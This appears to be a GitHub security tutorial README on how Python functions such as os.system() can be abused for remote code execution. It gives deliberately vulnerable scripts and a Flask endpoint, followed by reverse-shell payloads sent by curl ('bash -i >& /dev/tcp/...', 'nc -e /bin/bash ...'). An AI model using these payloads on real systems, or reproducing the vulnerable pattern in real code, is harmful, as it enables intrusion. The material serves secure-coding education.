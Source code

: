 # Python-Security-Principles
Fundamental concepts and principles on how Python application can be abused to gain remote code execution or be used to perform any type of unattended functionality

Python is an interpreted high-level general-purpose programming language. Python's design philosophy emphasizes code readability with its notable use of significant indentation. A lot of modern web application use python , especially when utilizing API endpoints. It is critical to secure these web application and API endpoints to ensure that the web application behaves as expected

When validating secure code , always examine the code to determine what paramter is used to accept user input , on what route is it mapped to and how the user supplied data gets processed during the web applications execution flow. Never pass input that the user has control over to a paramater that gets wrapped around a dangerous function() that could interact with the underlying OS and execute code. 

The following Python fucntions() can be abused to execute code, exfiltrate data, perform unattended functionality or bypass authentication pages

- os.system()
- eval()
- exec()
- input()
- str.format()
- Pickle()
- Jinja2/Tornado 
- PyYaml 

os.system()

Allows the Python script/program to execute shell commands on the underlying OS. Below is a basic example of how this function() can be used. The function() itself is not evil, but passing unsanitized user input to the function() could be dangerous and lead to code execution. Always ensure to pass data to os.system() that is validated, escaped and required for its intended functionality.

Basic Script - Accepts user input and saves it in the txt variable and then passes the txt variable to os.system()
```
#!/usr/bin/python

import os

txt = input("Enter Command to Execute?: ")
os.system(txt)
```
Another example of a similiar program that is not properly validated. The below code asks for a name , but passes the input to os.system(). This is a basic example of how the context of the program does not match it's functionality. 
```
#!/usr/bin/python

import os

txt = input("What is your name?: ")
os.system(txt)
```
Explioting the above code. Since the entire input variable is send to os.system(), the attacker can just provide a reverse shell one-liner instead of a valid name
```
What is your name?: bash -i >& /dev/tcp/10.10.10.10/9999 0>&1

//Replace IP
//Replace Port
```
The following code accepts user input from the public and passes it to os.system(), allowing the web application to be vulnerable to code execution

Interacting with the web app
```
curl -X POST http://10.10.10.10:5000/api?request=
curl -X POST -d "request=test" http://10.10.10.10:5000/api
```
Vulnerable Web Application
```
#!/usr/bin/python

import os
from flask import Flask, request

app = Flask(__name__)


@app.route("/api", methods=["POST"])
def hackme():
    data = os.system(request.form['request'])
    print(data)
```
Explioting the web app

Payload: nc -e /bin/bash 10.10.5.10 9999 | Can be replaced by any other form of RCE. Ensure to base64 or URL encode the payload

```
curl -x POST -d "request=nc -e /bin/bash 10.10.5.10 9999" http://10.10.10.10:5000/api
```

| Attempt | #1 | #2 |
| :---: | :---: | :---: |
| Seconds | 301 | 283 |
